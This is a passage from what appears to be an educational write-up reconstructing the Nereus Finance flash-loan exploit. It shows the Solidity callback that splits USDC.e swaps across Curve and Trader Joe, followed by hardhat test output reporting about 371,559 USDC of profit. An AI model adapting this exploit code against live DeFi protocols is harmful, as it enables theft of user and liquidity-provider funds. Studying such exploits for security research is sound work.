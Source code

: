 <pre>
 <code id="htmlViewer" style="color:rgb(77, 77, 76); font-weight:400;background-color:rgb(255, 255, 255);background:rgb(255, 255, 255);display:block;padding: .5em;">function executeOperation(
  <span style="color:rgb(142, 144, 140); font-weight:400;">// ...</span>
) <span style="color:rgb(137, 89, 168); font-weight:400;">public</span> returns (bool) {
  <span style="color:rgb(142, 144, 140); font-weight:400;">// ...</span>
  
  <span style="color:rgb(142, 144, 140); font-weight:400;">// Now, swap 80.8% of our USDC.e for USDC using the Curve.fi USDC.e - USDC</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// Stable Swap pool, and the rest through the Trader Joe Router.</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">//</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// Swapping 100% of the USDC.e through the pool, or 100% of the USDC.e</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// through the router yields a much lower result. I found 80.8% through the</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// stable swap pool to be the best ratio experimentally</span>
  uint256 optimalStableSwapPoolSwapAmount = ((usdce.balanceOf(address(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>)) * <span style="color:rgb(245, 135, 31); font-weight:400;">808</span>) / <span style="color:rgb(245, 135, 31); font-weight:400;">1000</span>);
  usdceusdc.exchange(<span style="color:rgb(245, 135, 31); font-weight:400;">0</span>, <span style="color:rgb(245, 135, 31); font-weight:400;">1</span>, optimalStableSwapPoolSwapAmount, <span style="color:rgb(245, 135, 31); font-weight:400;">1</span>);

  path[<span style="color:rgb(245, 135, 31); font-weight:400;">0</span>] = address(usdce);
  path[<span style="color:rgb(245, 135, 31); font-weight:400;">1</span>] = address(usdc);

  router.swapExactTokensForTokens(
    usdce.balanceOf(address(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>)),
    <span style="color:rgb(245, 135, 31); font-weight:400;">1</span>,
    path,
    address(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>),
    block.timestamp * <span style="color:rgb(245, 135, 31); font-weight:400;">5</span>
  );

  <span style="color:rgb(142, 144, 140); font-weight:400;">// Must return true, else the flash loan will revert</span>
  <span style="color:rgb(137, 89, 168); font-weight:400;">return</span> <span style="color:rgb(245, 135, 31); font-weight:400;">true</span>;
}</code></pre>

After the `executeOperation()` function returns, we will have repaid our flash loan and ended up with a profit of ~371,000 USDC.

# Running the exploit

Finally, after all of that, we get to the end result:

```
$ npx hardhat test test/nereusfinance_attack/nereusfinance_attack.test.ts
Compiled 1 Solidity file successfully


  Nereus Finance Exploit
[+] USDC Balance before exploit: 0
[+] USDC Balance after exploit: 371559.498918
    ✔ Exploits successfully (699ms)


  1 passing (5s)

Done in 6.02s.
```

